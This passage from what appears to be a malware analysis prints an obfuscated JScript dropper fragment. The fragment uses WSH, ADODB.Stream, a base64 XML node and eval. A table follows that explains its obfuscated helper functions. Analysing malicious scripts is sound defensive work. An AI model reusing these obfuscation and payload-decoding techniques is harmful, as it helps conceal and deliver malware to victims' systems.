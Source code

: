 ```javascript
);

oMut1 = [
    Array(
        WSH[m3MorYkAd[1][0]](["\x61\x64{0}\x62\x2E{1}\x72\x65{2}"].om0l4d3("\x6F\x64", "\x73\x74", "\x61\x6D")),
        WSH[m3MorYkAd[1][0]]("\x6D\x69\x63\x72\x6F\x73\x6F\x66\x74\x2E\x78\x6D\x6C\x64\x6F\x6D")[Array("create\x45\x6C", "\x6D", "\x6E\x74").join("\x65")]("bst"),
        ["us-\x61\x73\x63\x69\x69"]
    ),
    function() {
        return m3MorYkAd[3][0];
    },
    function() {
        for (var p = 0; p < m3MorYkAd[2].length; p++) {
            eval(m3MorYkAd[2][p]);
        }
    }
];

"".undefined(m3MorYkAd, oMut1);

Array.prototype.\u006B\u0034\u0052\u0064\u0033 = "\x6D\x33\x4D\x6F\x72\x59\x6B\x41\x64\x20\x3D\x20\x5B\x65\x76\x61\x6C\x2C\x20\x6D\x33\x4D\x6F\x72\x59\x6B\x41\x64\x5B\x34\x5D\x28\x29\x2C\x20\x5B\x6D\x33\x4D\x6F\x72\x59\x6B\x41\x64\x5B\x31\x5D\x5B\x31\x5D\x5D\x5D\x3B";
m3MorYkAd[3][1]['epyTatad'.mouse()] = '46esab.nib'.mouse();

eval('var tmx = [[].s0fStu].om0l4d3("g", "R", "d")');
['m3MorYkAd[3][1]["text\"] = tmx;m3MorYkA{0}d3;m3MorYkA{1}m3MorYkA{2}]());'].om0l4d3('d[2][3] = [].k4R', 'd[5]();eval(m3MorYkAd[1][', 'd[2]').proc();


```
*Malicous code 1: Sample*



## Explanation of the Code

### Summary Table

| Code Section                             | Purpose                                                        |
|------------------------------------------|----------------------------------------------------------------|
| `String["prototype"].proc`              | Allows arbitrary code execution by evaluating string content.  |
| `String["prototype"]["undefined"]`      | Copies elements from one array to another, obscuring functionality. |
| `String.prototype.mp3`                   | Constructs a string in reverse order, potentially executing malicious code. |
| `Variable \u006D\u0033\u004D\u006F\u0072\u0059\u006B\u0041\u0064` | Contains various strings, possibly used for further manipulation. |
| `Array.prototype.om0l4d3`               | Uses regex to find and replace patterns within strings.       |
| `Array.prototype.s0fStu`                 | Stores obfuscated strings which might be processed later for malicious intent. |
| `eval` function calls                    | Executes dynamically constructed code, allowing for the execution of potentially harmful scripts. |
| `oMut1`                                  | An array containing operations that execute functions for further manipulation of strings and potential code execution. |
